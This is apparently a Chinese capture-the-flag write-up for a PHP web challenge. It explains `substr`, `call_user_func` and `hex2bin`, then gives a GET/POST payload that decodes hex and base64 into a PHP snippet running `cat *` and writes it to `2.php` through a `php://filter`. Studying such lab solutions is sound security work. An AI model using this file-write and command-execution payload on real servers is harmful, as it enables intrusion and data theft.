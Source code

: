 ```
$v4 = is_numeric($v2) and is_numeric($v3);  //这个是优先执行 $v4 = is_numeric($v2) 的
```

**substr()** 函数返回字符串的一部分             **substr(*string,start,length*)**

| 参数     | 描述                                                         |
| :------- | :----------------------------------------------------------- |
| *string* | 必需。规定要返回其中一部分的字符串。                         |
| *start*  | 必需。规定在字符串的何处开始。正数 - 在字符串的指定位置开始负数 - 在从字符串结尾的指定位置开始0 - 在字符串中的第一个字符处开始 |
| *length* | 可选。规定要返回的字符串长度。默认是直到字符串的结尾。正数 - 从 start 参数所在的位置返回负数 - 从字符串末端返回 |

**call_user_func**

官方的解释是：把第一个参数作为**回调函数**（`callback`），并且将其余的参数作为回调函数的参数。

第一个参数可以是函数名，后面的均为作为该函数使用的参数

```
GET
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-
decode/resource=2.php
POST
v1=hex2bin
```

https://www.sojson.com/hexadecimal.html

```
115044383959474e6864434171594473 为字符串16进制转换，前两位是不重要的，被substr()过滤了
PD89YGNhdCAqYDs    base64的编码
<?=`cat *`;         解码
```

**hex2bin()** 函数把十六进制值的字符串转换为 ASCII 字符     hex2bin(*string*)

| 参数     | 描述                     |
| :------- | :----------------------- |
| *string* | 必需。要转换的十六进制值 |

<img src="图片\Snipaste_2023-01-10_11-01-13.png" alt="Snipaste_2023-01-10_11-01-13" style="zoom:67%;" />
